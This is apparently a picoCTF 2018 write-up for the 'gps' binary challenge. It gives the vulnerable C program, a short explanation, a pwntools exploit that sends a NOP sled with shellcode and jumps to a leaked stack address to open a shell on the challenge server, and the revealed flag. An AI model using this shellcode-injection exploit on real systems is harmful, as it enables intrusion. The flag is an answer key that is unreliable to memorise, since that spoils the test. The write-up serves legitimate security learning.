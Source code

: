 ![title](images/title.png)

![hint](images/hint.png)

### gps.c

```c
#include <stdint.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

#define GPS_ACCURACY 1337

typedef void (fn_t)(void);

void initialize() {
    printf("GPS Initializing");
    for (int i = 0; i < 10; ++i) {
        usleep(300000);
        printf(".");
    }
    printf("Done\n");
}

void acquire_satellites() {
    printf("Acquiring satellites.");
    for (int i = 0; i < 3; ++i) {
        printf("Satellite %d", i);
        for (int j = 0; j < rand() % 10; ++j) {
            usleep(133700);
            printf(".");
        }
        if (i != 3) {
            printf("Done\n");
        } else {
            printf("Weak signal.\n");
        }
    }

    printf("\nGPS Initialized.\n");
    printf("Warning: Weak signal causing low measurement accuracy\n\n");
}

void *query_position() {
  char stk;
  int offset = rand() % GPS_ACCURACY - (GPS_ACCURACY / 2);
  void *ret = &stk + offset;
  return ret;
}


int main() {
    setbuf(stdout, NULL);

    char buffer[0x1000];
    srand((unsigned) (uintptr_t) buffer);

    initialize();
    acquire_satellites();

    printf("We need to access flag.txt.\nCurrent position: %p\n", query_position());

    printf("What's your plan?\n> ");
    fgets(buffer, sizeof(buffer), stdin);

    fn_t *location;

    printf("Where do we start?\n> ");
    scanf("%p", (void**) &location);

    location();
    return 0;
}
```

Given the size of the char buffer and our ability to write on the stack I tried to throw a big nop sled on the stack followed by some shellcode. Originally my plan was to find an offset where our shellcode would land but I discovered that it would sometimes land on the leaked address so I just decided to do some minor bruteforcing until a shell popped

### apple.py

```python
#!/usr/bin/env python

from pwn import *
import sys
argc = len(sys.argv)

LOCAL = True

def exploit(p):
	p.recvuntil("Current position: ")

	STACK = int(p.recvline()[:-1], 16) #Gather the stack address leak
	p.recvuntil("> ")

	log.info('Stack       : %s' % hex(STACK))
	#TARGET = STACK+0x220

	context.arch = "amd64"
	shellcode = asm(shellcraft.amd64.sh())	#Build the shellcode

	payload = "\x90"*(900-len(shellcode)) #Fill the extra buffer with NOPs
	payload+= shellcode

	p.sendline(payload)

	p.recvuntil("> ")

	#log.info("Target       : %s" % hex(TARGET))
	p.sendline(hex(STACK))		#Send back the stack leak and hope our sled is there

	p.interactive()

	return






if __name__ == '__main__':
	if argc > 1:
		LOCAL = False
		p = remote('2018shell.picoctf.com', 29035)
		exploit(p)
	else:
		p = process('./gps2')
		# print util.proc.pidof(p)
		# pause()
		exploit(p)
```

<details>
    <summary>Flag</summary>

picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_ejeqjegd}
</details>
